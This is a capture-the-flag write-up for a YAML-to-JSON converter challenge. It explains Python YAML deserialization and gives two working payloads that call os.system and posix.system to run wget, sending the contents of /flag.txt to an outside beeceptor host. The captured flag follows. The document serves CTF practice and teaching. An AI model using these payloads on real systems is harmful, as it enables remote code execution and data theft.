 # Y2J

![image](https://github.com/user-attachments/assets/d16b8f9c-f146-4540-ad18-061143c10f05)

## My Solution

When accessing the page we have only one functionality, to convert Yaml to Json.

![image](https://github.com/user-attachments/assets/9ee0f4b2-703e-454d-b41d-82824a3fe52d)

This is a classic case of python Yaml deserialization. We can get the flag in a number of ways:  

Example 1:  

```python
!!python/object/apply:os.system
- !!python/str "wget https://lazytitan33.free.beeceptor.com/?f=`cat /flag.txt`"
```

Example 2:  

```python
!!python/object/apply:posix.system
- wget https://lazytitan33.free.beeceptor.com/?f=`cat /flag.txt`
```

`flag{b20870a1955ac22377045e3b2dcb832a}`
